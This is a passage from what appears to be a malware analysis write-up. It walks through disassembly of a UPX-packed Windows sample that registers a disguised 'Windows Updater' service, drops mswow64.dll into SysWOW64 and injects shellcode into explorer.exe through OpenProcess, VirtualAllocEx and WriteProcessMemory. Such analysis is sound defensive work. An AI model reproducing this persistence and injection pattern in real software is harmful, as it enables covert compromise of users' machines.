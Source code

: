 ```Assembly
UPX0:00402B38         push    0F01FFh
UPX0:00402B3D         push    offset aWindowsUpdater  ; "Windows Updater"
UPX0:00402B42         push    offset aWindowsupdat_0  ; "WindowsUpdates"
UPX0:00402B47         push    edi
UPX0:00402B48         call    advapi32_CreateService
UPX0:00402B4E         mov     esi, eax
UPX0:00402B50         test    esi, esi
UPX0:00402B52         jz      short loc_402B72
UPX0:00402B54         lea     eax, [ebp+var_14]
UPX0:00402B57         push    eax
UPX0:00402B58         push    1
UPX0:00402B5A         push    esi
UPX0:00402B5B         mov     [ebp+var_14], offset aWindowsUpdat_0 ; "Windows Updater keeps your Windows up t"...
UPX0:00402B62         call    advapi32_ChangeServiceConfig2W
UPX0:00402B68         push    esi
```


Then function `write_mswow_dll_402640` creates a dll file at `C:\Windows\SysWOW64\mswow64.dll`.
The dll is inside the malware binary (stored as a resource). Then `inject_dll_4012C0` is the
classic DLL Injection technique, where it injects some shellcode into the address space of 
`explorer.exe`:

```Assembly
....
UPX0:00401326         push    offset aExplorer_exe    ; "explorer.exe"
UPX0:0040132B         push    edx
UPX0:0040132C         call    sub_403804
UPX0:00401331         add     esp, 8
UPX0:00401334         test    eax, eax
UPX0:00401336         jnz     NOT_FOUND_4013E3
UPX0:0040133C         mov     eax, [ebp+var_238]
UPX0:00401342         push    eax                     ; _DWORD
UPX0:00401343         push    0                       ; _DWORD
UPX0:00401345         push    1FFFFFh                 ; _DWORD
UPX0:0040134A         call    kernel32_OpenProcess
UPX0:00401350         mov     esi, eax
UPX0:00401352         test    esi, esi
UPX0:00401354         jz      NOT_FOUND_4013E3
UPX0:0040135A         mov     ecx, [ebp+var_C]
UPX0:0040135D         mov     [ebp+var_10], 0
UPX0:00401364         call    sub_401250
UPX0:00401369         push    40h                     ; _DWORD
UPX0:0040136B         push    3000h                   ; _DWORD
UPX0:00401370         mov     ebx, eax
UPX0:00401372         push    ebx                     ; _DWORD
UPX0:00401373         push    0                       ; _DWORD
UPX0:00401375         push    esi                     ; _DWORD
UPX0:00401376         call    kernel32_VirtualAllocEx
UPX0:0040137C         mov     edi, eax
UPX0:0040137E         test    edi, edi
UPX0:00401380         jz      short ERROR_4013D3
UPX0:00401382         lea     ecx, [ebp+var_10]
UPX0:00401385         push    ecx                     ; _DWORD
UPX0:00401386         push    ebx                     ; _DWORD
UPX0:00401387         push    offset shellcode_401040 ; _DWORD
UPX0:0040138C         push    edi                     ; _DWORD
UPX0:0040138D         push    esi                     ; _DWORD
UPX0:0040138E         call    kernel32_WriteProcessMemory
UPX0:00401394         test    eax, eax
UPX0:00401396         jz      short ERROR_4013D3
UPX0:00401398         mov     edx, [ebp+var_C]
UPX0:0040139B         mov     eax, [edx]
```